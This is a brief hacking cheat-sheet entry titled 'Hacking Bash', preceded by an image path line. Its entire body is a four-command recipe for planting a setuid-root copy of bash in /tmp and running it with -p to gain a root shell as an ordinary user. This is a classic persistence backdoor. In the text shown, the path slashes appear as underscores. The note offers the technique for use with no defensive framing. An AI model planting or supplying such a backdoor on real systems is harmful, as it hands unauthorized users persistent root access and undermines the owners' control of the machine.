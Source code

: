 # Hacking Bash
#hacking
Setuid Bash

cp _bin_bash _tmp_foobash
chown root:root _tmp_foobash
chmod 4755 _tmp_foobash
_tmp_foobash -p (as user)
